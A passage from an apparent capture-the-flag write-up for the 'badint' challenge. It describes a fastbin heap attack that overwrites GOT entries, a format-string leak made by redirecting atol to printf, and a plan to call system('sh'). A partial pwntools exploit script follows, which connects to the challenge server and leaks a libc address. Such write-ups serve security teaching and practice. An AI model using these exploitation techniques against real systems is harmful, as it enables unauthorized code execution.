 Later we could just allocate the chunk in `fastbin[2]`. Once we allocate `0x604042`, we'll be able to overwrite the GOT entry by copying our data into the fake fastbin chunk.  

But there's one more problem: we don't know the version of the libc. The libc address we leaked is the address of `main_arena+88`, neither [libc-database](https://github.com/niklasb/libc-database) nor [libcdb.com](http://libcdb.com/) can find the libc version with this symbol's address. 

So we'll have to leak more addresses. However, although we can modify a function's GOT, there's no way we can store a GOT entry's address in the function parameter. Luckily, I still managed to figure out the solution: **by using the format string vulnerability.**  

We could modify `atol@got.plt` into `printf@got.plt`, which will turn `atol(our_input)` into `printf(our_input)`, **thus we create a format string vulnerability, and we can use the vulnerability to leak an arbitrary address.** By doing this, I was able to leak some GOT entries and found the correct version of libc at [libcdb.com](http://libcdb.com/). After that is simple, we could just hijack `atol`'s GOT and call `system('sh')` by entering "sh".  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "badint_7312a689cf32f397727635e8be495322.quals.shallweplayaga.me"
PORT = 21813
ELF_PATH = "./badint"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc-2.19_15.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_data(seq, off, data, lsf):
    r.sendlineafter("SEQ #:", str(seq))
    r.sendlineafter("Offset: ", str(off))
    r.sendlineafter("Data: ", data)
    r.sendlineafter("Yes/No: ", lsf)

def convert(num):
    ret = ""
    while num != 0:
        now = num & 0xff
        num >>= 8
        ret = ret + '{:02x}'.format(now)
    return ret.ljust(16, "0")

if __name__ == "__main__":
    
    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_data(1, 8, "1"*0x90*2, 'Yes')
    r.recvuntil("Assembled [seq: 1]: ")
    # leak libc address
    addr = 0
    for i in xrange(6):
        addr |= ((int(r.recv(2), 16)) << (i*8))
    
    log.success("addr: " +hex(addr))
    # libc.address = addr - 0x3c3b78 # local
```